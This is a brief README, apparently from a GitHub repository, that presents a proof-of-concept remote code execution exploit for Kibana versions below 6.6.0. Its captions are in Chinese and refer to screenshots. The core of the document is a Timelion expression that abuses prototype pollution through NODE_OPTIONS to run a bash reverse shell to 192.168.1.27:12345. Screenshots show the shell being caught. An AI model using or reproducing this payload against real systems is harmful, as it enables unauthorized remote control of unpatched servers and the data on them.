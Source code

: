 # kibana-RCE <6.6.0
![监听端口](./微信图片编辑_20191018114455.jpg)
POC：

.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.1.27/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

![点击RUN按钮运行](./微信图片编辑_20191018114829.jpg)

![成功反弹shell](./微信截图_20191018114912.png)

